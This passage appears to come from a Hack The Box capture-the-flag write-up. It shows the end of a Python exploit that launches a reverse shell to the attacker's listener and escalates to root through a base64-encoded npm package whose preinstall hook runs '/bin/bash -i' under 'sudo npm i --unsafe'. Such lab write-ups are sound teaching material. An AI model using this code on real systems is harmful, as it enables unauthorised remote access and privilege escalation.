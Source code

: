         time.sleep(sleepTime) #Wait a second before retreiving the output of the command
        sleepTime = defaultSleepTime

#Create a thread that waits for a listener to start and then executes the reverse shell payload
thread3 = threading.Thread(target=executeRevShell,args=(URLBASE,LHOST,rsLock,headers))
thread3.start()

#Prepare a list with privesc commands and start a listener
#cat package.json | base64 -w 0
packageJSON = "ewogICJuYW1lIjogInByaXZlc2NQYWNrYWdlIiwKICAidmVyc2lvbiI6ICIxLjAuMCIsCiAgIm1haW4iOiAiaW5kZXguanMiLAogICJzY3JpcHRzIjogewogICAgInByZWluc3RhbGwiOiAiL2Jpbi9iYXNoIC1pIgogIH0KfQo="
privescCommands = ["mkdir ./privescPackage","echo '" + packageJSON + "' | base64 -d > privescPackage/package.json","sudo npm i privescPackage --unsafe"]
listener(LHOST,int(LPORT),mutex=rsLock,commands=privescCommands)
{% endhighlight %}

We can save the exploit code in a file named "exploit.py" and execute it as demonstrated below to see the automated exploitation in action!

<video width="100%" controls="controls">
  <source src="/assets/{{ imgDir }}/demo.mp4" type="video/mp4">
</video>

# Further Reading
If you enojoyed this post, you might also like the post [Hack The Box - Holiday - Source Code Analysis]({% post_url 2021-10-30-HTB-Holiday-Source-Code-Analysis %}) where we perform a source code review of the host we targeted in this blog post.
